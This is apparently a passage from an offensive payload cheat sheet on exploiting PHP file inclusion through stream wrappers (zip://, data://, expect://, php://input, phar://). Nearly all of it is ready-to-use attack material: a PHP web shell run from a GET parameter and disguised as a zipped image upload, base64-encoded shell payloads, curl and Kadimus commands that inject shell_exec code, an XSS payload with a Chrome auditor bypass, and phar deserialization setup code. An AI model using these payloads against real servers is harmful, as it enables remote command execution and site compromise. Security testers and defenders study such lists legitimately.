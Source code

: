 
### Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file
  ```python
  zip payload.zip payload.php;
  mv payload.zip shell.jpg;
  rm payload.php
  ```
3. Upload the archive and access the file using the wrappers: http://example.com/index.php?page=zip://shell.jpg%23payload.php


### Wrapper data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`


### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```


### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```


### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
